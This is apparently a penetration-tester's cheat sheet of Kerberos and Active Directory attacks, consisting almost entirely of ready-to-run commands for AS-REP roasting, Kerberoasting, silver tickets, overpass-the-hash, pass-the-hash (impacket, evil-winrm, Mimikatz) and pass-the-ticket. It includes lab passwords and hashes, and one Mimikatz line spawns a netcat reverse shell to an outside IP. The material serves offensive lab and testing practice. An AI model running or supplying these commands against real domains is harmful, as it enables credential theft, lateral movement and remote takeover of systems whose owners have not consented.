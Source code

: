 Kerberos
========================

AS-REP Roasting
```
impacket-GetNPUsers -request domain/ -usersfile usernames.txt -dc-ip <hostname>
```

## Kerberoasting
```
impacket-GetUserSPNs -request domain/user:password -dc-ip <hostname>
```
## Silver Ticket

```
rubeus.exe silver /service:cifs/dc1.ignite.local /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ldap /creduser:ignite.local\Administrator /credpassword:Ignite@987 /user:harshitrajpal /krbkey:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /krbenctype:aes256 /domain:ignite.local /ptt
```

## Overpass the hash

    impacket-getTGT -hashes :f6b7160bfc91823792e0ac3a162c9267 HTB.LOCAL/Administrator -dc-ip 10.10.10.103
    
    cp user.ccache /tmp/krb5cc_0
    export KRB5CCNAME=/tmp/krb5cc_0
    
    klist

## Pass the hash

### Impacket and evil-winrm
```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```

### Rubeus and Mimikatz
```
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:Powershell.exe

sekurlsa::pth /domain:flight.htb /user:R.Cold /ntlm:5607f6eafc91b3506c622f70e7a77ce0 /run:".\n.exe -e cmd 10.10.14.14 8091"
```

## Pass the ticket

```
rub.exe ptt /ticket:0-40e10000-G0$@krbtgt~FLIGHT.HTB-FLIGHT.HTB.kirbi
```

![qownnotes-media-zBGsNi](../.gitbook/assets/qownnotes-media-zBGsNi.png)